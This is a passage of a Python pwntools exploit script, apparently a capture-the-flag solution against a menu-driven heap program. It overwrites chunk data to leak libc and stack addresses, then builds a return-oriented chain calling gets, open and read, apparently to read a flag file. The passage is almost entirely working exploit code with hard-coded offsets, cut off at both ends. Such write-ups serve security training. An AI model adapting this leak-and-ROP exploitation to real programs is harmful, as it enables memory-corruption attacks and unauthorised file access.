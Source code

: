 ```python
	sh.send(content + " ")

def edit1(index, content):
	sh.recvuntil("ce:")
	sh.sendline("2")
	sh.recvuntil("nge?")
	sh.sendline(str(index))
	sh.recvuntil("tent ?")
	sh.send(content + b" ")
	

for i in range(20):
	add(1,str(i),'a'*0x30) #0 - 19
for i in range(20):
	edit(str(i), 'a'*0x40)
add(1, 200, 'a'*0x3ff) #200
#attach(sh)
for i in range(20):
	edit1(str(i),p32(0xffffffff))
show(18)
sh.recvuntil("ONTENT: ")
addr = u32(sh.recv(4))
log.info("addr:"+hex(addr))
libcbase = addr - 0x1eb8f8
log.info("libcbase:"+hex(libcbase))
#attach(sh)
#raw_input()
target = libcbase + 0x1ed098 + 1
log.info("target:"+hex(target))
payload = p32(0xffffffff) + p32(target)
edit1(17, payload)

show(17)
#attach(sh)
sh.recvuntil("ONTENT: ")
addr = u32(sh.recv(3).rjust(4,b'\x00'))
log.info("addr:"+hex(addr))

payload = p32(0xffffffff) + p32(libcbase + libc.symbols['environ'])
edit1(17, payload)

show(17)
#attach(sh)
sh.recvuntil("ONTENT: ")
stack = u32(sh.recv(4))
log.info("addr:"+hex(stack))


payload = b'x'*4 + p32(target - 0x100) * 8 + p32(libc.symbols['gets'] +libcbase - 1 ) + p32(libcbase + pop4_ret) + p32(stack - 0x108 - 1)
log.info(hex(libc.symbols['gets'] + libcbase))
#raw_input()
edit1(17,payload)

edit1(16, p32(0xffffffff) + p32(addr - 0x1c630 + 1))
#attach(sh, "b*$rebase(0x2413)")
#raw_input()
show(16)

payload = p32(libcbase + libc.symbols['open']) + p32(libcbase + pop2_ret) + p32(stack - 0xd0) + p32(0)
payload += p32(libcbase + libc.symbols['read']) + p32(libcbase + pop3_ret) + p32(3) + p32(stack) + p32(0x100)
```